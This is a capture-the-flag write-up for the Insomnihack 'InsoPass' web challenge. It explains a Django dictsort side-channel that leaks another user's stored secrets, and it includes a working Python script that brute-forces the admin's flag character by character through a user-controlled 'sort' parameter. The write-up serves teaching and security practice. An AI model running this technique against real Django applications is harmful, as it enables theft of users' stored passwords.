





# Challenge

InsoPass

# Category

Web

# Description

Based on recent events, we wanted to provide you a new, ~secure~, and ~state of the art~ password storing solution. You can try it on https://insopass.insomnihack.ch/

# Solve

The application of this challenge is quite simple, it allows to emulate a "password manager", you just have to fill in a title, a username and a password (obviously you have to have created an account before). Once this is done, it is possible to share this secret with someone else if you know his username, it will appear in the "Shared With Me" category. So the interface looks like this:



The goal of this challenge is obvious, you have to steal the secret that is contained in the administrator's account! The author of the challenge has provided us with the source code, so we can directly go and look at it to start finding the vulnerability that will allow us to achieve our goals!

The application is developed in python with the Django framework, so there are a lot of configuration files, migration, ...

There are several parts in this code, one allowing to manage the users with the routes of register, login, logout and another allowing to manage the secrets of the users, with the following routes:

- /secrets/ : View current secret of the user
- /secrets/add : Add a secret
- /secrets/delete : Delete a secret
- /secret/share : Share a secret with another user
- /secrets/shared : View shared secret

The method that allows us to share one of our secrets with another user is the following:

```py
@login_required
@require_http_methods(["POST"])
def share(request):
    if "secret_id" not in request.POST or "share_with" not in request.POST:
        messages.error(request, "secret_id and share_with are required")
    else:
        id = request.POST["secret_id"]
        share_with = request.POST["share_with"]
        try:
            secret_o = Secret.objects.get(pk=id)
            if secret_o not in request.user.secrets.all():
                messages.error(request, "Unauthorized")
            else:
                target_user = get_user_model().objects.get(username=share_with)
                secret_o.shared_with.add(target_user)
                secret_o.save()
                messages.success(
                    request, f"Secret shared with user {target_user.username} !"
                )
        except Exception as e:
            print(e)
            messages.error(request, "Error updating the secret...")

    return redirect("my_secrets")
```



I'm only going to show this method, but the important thing to remember is that I spent an hour and a half analyzing the file from top to bottom to realize that, in the end, there is no vulnerability, not even logical, in this code, you can't steal the administrator's secret. Indeed, the vulnerability lies in the code of one of the html pages (yes trust me).

Here is the vulnerable code that we will exploit to steal the admin secret's:

```html

					<tr>
						<td> {{ s.id }} </td>
						<td> {{ s.title }} </td>
						<td> {{ s.key }} </td>
						<td> {{ s.secret }} </td>
						<td>  {{ u.username }}  </td>
						<td> 
							<div class="dropdown"><button class="btn dropdown-toggle btn-dark"  data-bs-toggle="dropdown" aria-expanded="false"><svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor" class="bi bi-wrench" viewBox="0 0 16 16">
		  <path d="M.102 2.223A3.004 3.004 0 0 0 3.78 5.897l6.341 6.252A3.003 3.003 0 0 0 13 16a3 3 0 1 0-.851-5.878L5.897 3.781A3.004 3.004 0 0 0 2.223.1l2.141 2.142L4 4l-1.757.364L.102 2.223zm13.37 9.019.528.026.287.445.445.287.026.529L15 13l-.242.471-.026.529-.445.287-.287.445-.529.026L13 15l-.471-.242-.529-.026-.287-.445-.445-.287-.026-.529L11 13l.242-.471.026-.529.445-.287.287-.445.529-.026L13 11l.471.242z"/>
		</svg></button>
        [to be continued...]
```

Here we see several things :

- We can "sort" the array entries by "id", "title", "key" or "secret", which is (normally) a legit thing
- If we have shared a secret with someone, is username is displayed

Here is an example where I will share a secret of an account "test" with the account "Worty" :


Here, the problem is the use of dictsort, indeed, if we refer to this sonar [article](https://www.sonarsource.com/blog/disclosing-information-with-a-side-channel-in-django/) we notice that if we fully control this parameter, it can result in a side channel and it is therefore possible to leaker sensitive information.

Here, the html source code retrieve secrets from the backend, let's check the method that send those :

```py
@login_required
@require_http_methods(["GET"])
def shared_with_me(request):
    if "sort" in request.GET and len(request.GET["sort"]):
        sort = request.GET["sort"]
    else:
        sort = "id"
    return return_secrets(
        request,
        "mysecrets/shared_with_me.html",
        Secret.objects.filter(shared_with__in=[request.user]),
        sort,
    )


def return_secrets(request, template, secrets, sort):
    data = [s._to_dict() for s in secrets]
    return render(
        request,
        template,
        {
            "form": AddSecretForm(),
            "secrets": [s._to_dict() for s in secrets],
            "sort": sort,
        },
    )
```

Those two methods will be called, and the html page will be rendered with all secrets of the current user, and if they've been shared, with the username of the person that they've been shared with. But here, the backend (for the shared_with_me) returns ALL informations of the user, including... his secrets. In fact, they wouldn't be displayed on the page obviously, but when the rendered process will execute his job, they'll be present inside. We can therefore use our side channel to extract the admin secrets by bruteforcing char by char.

With the "sort" get parameter, we can tell django to sort according to our input, so what happened if i want to sort by `shared_with.0.secrets.0` ? My secrets array will be sorted depending the content of the first secret of users i've shared mines with.

Furthermore, we know that the admin user is called "Inso_Admin", so I can share my secret with him !


Let's make an example, for the demo, the fake flag was `INS{!!!This____flag____is____a____placeholder!!!}`, which is stored inside the password field, others fields contains "Flag".

We will have three users :
 
- The victim (Inso_Admin)
- The attacker (Worty)
- The oracle account (Worty2)

Inside Worty2's account, I will create one secret, containing :

- Title: E
- Username: E
- Password: E

If our idea is good, (sort by the first secret of accounts i've shared mines with), "Worty2" is supposed to be at the top of the list, and Inso_Admin must be the last.

We store this secrets inside "Worty2" (oracle account):



With the attacker account (Worty), we reach the following url : `http://localhost:8000/secrets/?sort=shared_with.0.secrets.0`, to list secrets of the account by sorting with secrets of others :



And.. yes ! We have exactly the behaviour that we were waiting for. To verify it, i will delete the secret inside "Worty2" account, and put :

- Title : G
- Username: G
- Password : G

Because we sort by alphanumeric caracters, "Inso_Admin" is supposed to be at the top of the list, and "Worty2" must be the last :



The exploit is definitively validate ! We have know a side channel attack through the "dictsort" to extract the admin flag !


Finally, I create the following python script which will extract the admin's secret char by char :

```py
import requests, string
import warnings
warnings.filterwarnings("ignore")
base_url = "http://localhost:8000/" # https://insopass.insomnihack.ch/
flag = "INS{" #flag format
create_secrets_url = f"{base_url}secrets/add/"
login_url = f"{base_url}users/login/"
page_secrets = f"{base_url}secrets/"
delete_secrets = f"{base_url}secrets/delete/"

S_attackant = requests.Session()
S_oracle = requests.Session()

# 403 if the request has not a Referer header
headers = {"Referer":base_url}

# Retrieve csrf_token, thanks django.......
csrf_token = S_attackant.get(login_url,verify=False,headers=headers).text.split('name="csrfmiddlewaretoken" value="')[1].split('"')[0]
S_attackant.post(login_url,data={"csrfmiddlewaretoken":csrf_token,"username":"Worty","password":"Pokemon35"},verify=False,headers=headers)

# Retrieve csrf_token, thanks django.......
csrf_token = S_oracle.get(login_url,verify=False,headers=headers).text.split('name="csrfmiddlewaretoken" value="')[1].split('"')[0]
S_oracle.post(login_url,data={"csrfmiddlewaretoken":csrf_token,"username":"Worty2","password":"Pokemon35"},verify=False,headers=headers)


for i in range(44): # Arbitrary range
    found = False
    for j in range(34,127): # ASCII chars
        S_oracle.post(create_secrets_url,data={"title":"Flag","key":"Flag","secret":flag+chr(j)},verify=False,headers=headers)
        res = S_attackant.get(page_secrets+"?sort=shared_with.0.secrets.0",verify=False,headers=headers).text
        if res.index("Inso_Admin") < res.index("Worty2"): #found it!
            flag += chr(j-1)
            found = True
        id_secret = S_oracle.get(page_secrets,verify=False,headers=headers).text.split('id_secret_id" value="')[1].split('"')[0]
        S_oracle.post(delete_secrets,data={"secret_id":id_secret})
        if(found):
            break
    print(flag)

print(flag+"}")
```

You can find a video of the PoC [here](images/poc.mp4).

And we finally execute it on the challenge domain to recover the flag !

I would like to thanks my teammate "erdnaxe" which motivated me because I had finally given up this challenge, and which confirmed me on this track of exploit, and also the challenge author for this really cool side channel exploit :D

# Flag

`INS{C0ngr4tZ!_Expl0iting_dicts0rt1ng_L1ke_@_b055!!!}`